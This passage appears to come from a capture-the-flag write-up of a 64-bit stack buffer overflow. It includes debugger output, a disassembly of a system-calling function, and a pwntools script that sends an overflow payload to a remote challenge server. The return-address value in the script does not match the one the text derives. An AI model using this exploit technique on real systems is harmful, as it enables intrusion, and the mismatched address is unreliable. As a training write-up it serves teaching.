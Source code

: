    ```bash
   ──────────────────────────────────────────────────────────────────────────────────────────────────────
   gdb-peda$
   ```

   From the `gdb-peda` output above, we can see that the `RSP` has overflowed after 24 characters (i.e. stack starts to contain `DDDDDDDDEEEEEEEEFFFFFFFF`). This gives us the offset. We now need to know the return address. Also, there is a function called `overflowed`, this hints to use that this is the payload and that we should call the function after returning.

   To get a better idea:

   ![buffer_overflow](https://i.stack.imgur.com/wwP9I.png)

   

4. Use `gdb` to disassemble the function `overflowed`

   ```html
   gdb-peda$ disassemble overflowed
   ```

   Ouput:

   ```bash
      0x00000000004011fc <+0>:     push   rbp
      0x00000000004011fd <+1>:     mov    rbp,rsp
      0x0000000000401200 <+4>:     lea    rdi,[rip+0xe01]        # 0x402008
      0x0000000000401207 <+11>:    call   0x401030 <system@plt>
      0x000000000040120c <+16>:    nop
      0x000000000040120d <+17>:    pop    rbp
      0x000000000040120e <+18>:    ret
   End of assembler dump.
   ```

   From this we can determine the return address and also the base pointer of the payload (i.e. `push rbp`).

   payload `ret` address: `0x000000000040120e`

   payload `rbp` address: `0x00000000004011fc`

   

5. Using the information above, we can create a python script to send a payload to the server.

   We use `pwntools` (https://github.com/Gallopsled/pwntools) to create our script named [`payload.py`](./payload/payload.py).

   ```python
   from pwn import *
   
   target = remote('35.232.11.215', 49153)
   ret = 0x00000000004011fe
   rbp = 0x00000000004011fc
   payload = b'A'*24
   payload += p64(ret, endian='little')
   payload += p64(rbp, endian='little')
   
   target.send(payload)
   target.interactive()
   ```
